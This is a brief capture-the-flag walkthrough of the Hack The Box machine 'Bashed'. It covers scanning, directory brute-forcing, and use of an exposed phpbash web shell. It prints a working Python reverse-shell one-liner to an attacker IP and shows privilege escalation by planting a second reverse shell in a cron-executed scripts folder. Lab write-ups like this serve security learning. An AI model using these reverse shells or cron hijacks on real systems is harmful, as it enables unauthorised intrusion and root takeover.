

# [Bashed](https://www.hackthebox.com/machines/bashed)


```bash
rustscan -b 2000 10.10.10.68
```


Directory brute-forcing

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.68/FUZZ
```

Then, I find 'uploads' directory and inside of this 'phpbash.php' file.

After searching , on 'dev' directory, there is also 'phpbash.php' file.
You can see live shell below.


user.txt


Here's we can see privileges for www-data on script-manager.


Let's get reverse shell with python.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Here's result of reverse shell.


let's switch to scriptmanager user.


Here we see scripts folder and one .py file and .txt file here.


Then I looked that crontabs and see that this directory is running every 2 minutes.

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py
```




root.txt

